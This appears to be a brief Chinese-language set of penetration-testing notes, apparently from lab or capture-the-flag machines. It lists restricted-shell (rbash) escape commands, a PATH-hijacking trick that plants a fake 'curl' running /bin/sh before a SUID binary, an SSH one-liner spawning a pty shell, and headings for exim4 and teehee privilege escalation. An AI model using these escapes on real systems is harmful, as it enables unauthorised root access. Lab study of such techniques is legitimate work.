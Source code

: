 ## exim4
exim4提权


## rbash逃逸
这里得用rbash绕过的其中一中 用vi命令

我们进文件之后 随便vi一个文件 在里面输入

```
BASH——CMDS[A]=/bin/sh;a

set shell=/bin/bash
:shell

export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin/
```

### 环境变量逃逸
```
export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量
```
#### linux 环境变量劫持
```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
echo $PATH
/opt/statuscheck
```

^2b355a

### ssh逃逸
```
ssh mindy@61.139.2.158  "export TERM=xterm;python -c  'import pty;pty.spawn(\"/bin/bash\")'"
```

## echo
```
echo os.system("/bin/bash")
```
## teehee提权
可以看到使用teehee提权,teehee就是tee的变体从标准输入读取并写入标准输出和文件
